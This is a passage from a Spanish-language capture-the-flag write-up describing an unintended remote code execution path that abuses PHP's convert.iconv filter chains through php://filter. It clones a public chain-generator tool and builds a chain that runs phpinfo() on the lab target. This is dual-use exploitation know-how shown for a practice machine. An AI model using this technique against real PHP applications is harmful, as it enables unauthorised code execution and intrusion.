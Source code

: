 # Remote Command Execution (unintended path) (Abusing convert.iconv filter)
Esta máquina se hizo en el 2022, en 2021 se tocaba en la `hxp ctf 2021` un caso parecido al que nosotros tenemos, y consiguieron ejecutar código a través del filtro `convert.iconv` del wrapper `php://filter/`

Recomiendo leer [este artículo](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) para saber a fondo como funciona.

Yo esto lo he explotado en algunas ocasiones y podemos utilizar [este PoC](https://github.com/synacktiv/php_filter_chain_generator) para generar una cadena que nos permitirá ejecución de comandos.

Primero nos clonamos el repositorio.
```console
$ git clone https://github.com/synacktiv/php_filter_chain_generator                                                                                   
Cloning into 'php_filter_chain_generator'...                                                                                                                  
remote: Enumerating objects: 11, done.                                                                                                                        
remote: Counting objects: 100% (11/11), done.                                                                                                                 
remote: Compressing objects: 100% (7/7), done.                                                                                                                
remote: Total 11 (delta 4), reused 10 (delta 4), pack-reused 0 (from 0)                                                                                       
Receiving objects: 100% (11/11), 5.23 KiB | 5.23 MiB/s, done.                                                                                                 
Resolving deltas: 100% (4/4), done.
```

Ahora simplemente vamos a utilizar el script para generar una cadena que resultará en el código para ejecutar un `phpinfo()`
```console
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
```

Copiamos todo ese "churraco".
![Write-up Image](images/Screenshot_19.png)

Y vemos que funciona y conseguimos ejecutar el `phpinfo()`